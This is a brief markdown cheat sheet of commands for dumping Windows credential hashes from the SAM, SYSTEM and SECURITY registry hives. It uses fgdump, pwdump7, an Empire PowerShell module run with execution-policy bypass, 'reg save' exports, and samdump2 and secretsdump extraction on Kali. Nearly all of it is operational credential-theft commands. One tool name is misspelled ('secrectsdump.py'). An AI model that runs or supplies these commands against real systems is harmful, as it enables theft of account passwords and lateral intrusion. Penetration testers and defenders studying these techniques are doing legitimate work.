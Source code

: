 # dump SAM SYSTEM

## [fgdump](http://foofus.net/goons/fizzgig/fgdump/fgdump-usage.htm) | [pwdump7](https://www.tarasco.org/security/pwdump\_7/)

```bash
> fgdump.exe

> pwdump7.exe
```

## [dump.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1)

```bash
> powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"
```

## manually

```bash
reg save hklm\sam c:\Users\Public\ksam
reg save hklm\system c:\Users\Public\ksystem
reg save hklm\security c:\Users\Public\ksecurity

# on kali
samdump2 ksystem ksam
# [OR]
secrectsdump.py -sam ksam -security ksecurity -system ksystem LOCAL
```
